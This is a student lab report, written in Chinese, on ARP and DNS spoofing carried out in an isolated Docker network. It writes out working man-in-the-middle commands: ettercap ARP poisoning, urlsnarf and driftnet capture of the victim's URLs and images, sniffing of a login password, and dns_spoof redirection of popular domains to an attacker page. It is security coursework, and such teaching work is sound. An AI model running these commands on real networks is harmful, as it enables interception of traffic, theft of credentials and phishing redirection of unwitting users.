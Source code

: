 # Lab9 - ARP欺骗与DNS欺骗分析





**姓名：王骏**

**学号：22020007104**

**专业：2022级计算机科学与技术**

**日期：2025.10.21**



<div STYLE="page-break-after:always"></div>

# 目录

[TOC]



## 实验内容

通过该实验了解ARP欺骗与DNS欺骗的原理与方法

## 操作步骤

### 环境准备

攻击者：192.168.120.129 操作系统：kali

受害主机：192.168.120.131 操作系统：win7

Web服务器：192.168.65.143 操作系统：windows server 2008 r2

辅助工具：fping，ettercap，driftnet

本实验不提供线上实验环境，请学习者根据指导书自行实验。

本次实验在WSL2-Docker环境下进行。

```bash
# 1. 创建网络，使用正确的网关 192.168.120.2
docker network create --subnet=192.168.120.0/24 --gateway=192.168.120.2 --driver bridge arp-lab-network

# 2. 启动容器
docker run -itd --name victim --network arp-lab-network --ip 192.168.120.131 alpine:latest sleep 1000000
docker run -itd --name webserver --network arp-lab-network --ip 192.168.120.143 nginx:alpine
docker run -itd --name attacker --network arp-lab-network --ip 192.168.120.129 --privileged kalilinux/kali-rolling

# 3. 安装必要工具
docker exec victim apk update && apk add curl wget
docker exec attacker apt update && apt install -y ettercap-text-only dsniff driftnet fping nmap apache2
```

成功部署后，docker界面如下

![image-20251021164407004](https://cdn.jsdelivr.net/gh/violet-wdream/Drawio/PNG/image-20251021164407004.png)

### 实验步骤一：通过ARP欺骗来获取目标正在浏览的网页

所有我们的任务分为4个部分

1. 获取目标正在浏览的网页。
2. 获取目标正在访问的图片。
3. 获取目标输入的账号密码。
4. DNS攻击

查看受害主机的arp列表，里面包含网关，攻击主机的ip和mac

可以看到还没有进行arp欺骗时正常的arp列表

看看有哪些存活的主机也在局域网中。这里用fping命令，我们可以看到我们的受害主机。

```bash
fping -g 192.168.120.0/24 2>/dev/null | grep alive
```

![image-20251021164509201](https://cdn.jsdelivr.net/gh/violet-wdream/Drawio/PNG/image-20251021164509201.png)

A和B发给对方的数据包都发到了C这里，这样A和B就无法进行正常通信了，这样就会被受害者发现。所以需要IP转发。

```bash
# 在攻击机容器内：
# 1. 开启IP转发
echo 1 > /proc/sys/net/ipv4/ip_forward

# 2. 使用ettercap进行ARP欺骗（双向欺骗）
ettercap -T -i eth0 -M arp:remote /192.168.120.131// /192.168.120.1//

# 3. 另开终端捕获网页
docker exec -it attacker bash
urlsnarf -i eth0
```

![image-20251021164548506](https://cdn.jsdelivr.net/gh/violet-wdream/Drawio/PNG/image-20251021164548506.png)

![image-20251021164701639](https://cdn.jsdelivr.net/gh/violet-wdream/Drawio/PNG/image-20251021164701639.png)



查看ARP新的列表。发现网关的MAC已经变成攻击者的了，这说明ARP欺骗已经生效了。

![image-20251021115909016](https://cdn.jsdelivr.net/gh/violet-wdream/Drawio/PNG/image-20251021115909016.png)

```json
network IP:192.168.120.129 MAC:12:51:6b:c9:36:14
attacker IP:192.168.120.1 MAC:12:51:6b:c9:36:14
```

受害机victim浏览web服务器创建的网页`192.168.65.143`

![image-20251021144136624](https://cdn.jsdelivr.net/gh/violet-wdream/Drawio/PNG/image-20251021144136624.png)

### 实验步骤二：ARP欺骗来获取目标正在访问的图片

```
driftnet -i eth0 -a -d /tmp/images
```

![image-20251021142844317](https://cdn.jsdelivr.net/gh/violet-wdream/Drawio/PNG/image-20251021142844317.png)

受害主机浏览web服务器创建的图片网页

攻击主机出现结果，我们可以看见出来很多照片

我们到/tmp目录下去查看图片

![image-20251021165227815](https://cdn.jsdelivr.net/gh/violet-wdream/Drawio/PNG/image-20251021165227815.png)

### 实验步骤三：ARP欺骗来获取目标输入的账号密码

```bash
ettercap -T -i eth0 -M arp:remote /192.168.120.131// /192.168.120.2//
# 模拟登录操作
docker exec victim curl -X POST -d "username=testuser&password=testpass123" http://192.168.120.143/login.html
```

![image-20251021170109097](https://cdn.jsdelivr.net/gh/violet-wdream/Drawio/PNG/image-20251021170109097.png)



### 实验步骤四

```bash
# 1. 启动Apache服务并创建欺骗页面
service apache2 start
echo '<html><body><h1>警告！这可能是一个伪造的网站！</h1><p>DNS欺骗演示成功！</p></body></html>' > /var/www/html/index.html

# 2. 启动DNS欺骗
ettercap -T -i eth0 -P dns_spoof -M arp:remote /192.168.120.131// /192.168.120.2//

# 测试DNS欺骗
docker exec victim nslookup www.taobao.com
docker exec victim nslookup www.baidu.com
docker exec victim curl http://www.taobao.com
docker exec victim curl http://www.baidu.com
# 这些请求都应该被重定向到攻击者的Apache服务器
```

![image-20251021170157620](https://cdn.jsdelivr.net/gh/violet-wdream/Drawio/PNG/image-20251021170157620.png)

## 实验总结

本次ARP欺骗与DNS欺骗实验通过Docker环境成功构建了模拟攻击场景，验证了中间人攻击的原理和危害。实验表明，ARP协议因缺乏认证机制而易被篡改，攻击者可通过ARP欺骗劫持网络流量，进而实施URL嗅探、图片捕获和密码窃取。在ARP欺骗基础上，通过DNS欺骗进一步实现了域名重定向，展示了钓鱼攻击的实际威胁。





















